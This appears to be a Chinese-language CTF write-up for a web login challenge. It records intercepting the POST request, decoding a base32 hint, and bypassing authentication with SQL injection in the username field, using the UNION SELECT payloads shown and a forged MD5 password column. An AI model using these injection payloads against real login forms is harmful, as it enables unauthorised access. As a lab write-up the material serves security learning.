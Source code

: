 ![[Pasted image 20221106111400.png]]
![[Pasted image 20221106111412.png]]
抓包发现通过`POST`方法传递用户名和密码
![[Pasted image 20221106111504.png]]
响应包中有一串`base32`码
![[Pasted image 20221106111611.png]]
![[Pasted image 20221106111649.png]]
套娃.jpg
![[Pasted image 20221106111726.png]]
看来是对用户名进行注入
```sql
name=1' or 1=1 or '1&pw=password
```
![[Pasted image 20221106112051.png]]
尝试[[判断注入点]]
```sql
name=1' union select 1,2,3#&pw=password
```
![[Pasted image 20221106113404.png]]
```sql
name=1' union select 'admin',2,3#&pw=password
```
```sql
name=1' union select 1,'admin',3#&pw=password
```
```sql
name=1' union select 1,2,'admin'#&pw=password
```
发现注入点为第二列
猜测`password`为第三列
```sql
name=1' union select 1,'admin','1'#&pw=1
```
![[Pasted image 20221106114926.png]]
搜索后才知道用的`md5`编码，属实没想到QAQ
```sql
name=1' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1
```
![[Pasted image 20221106115057.png]]
#Web #SQL注入 #查询结果伪造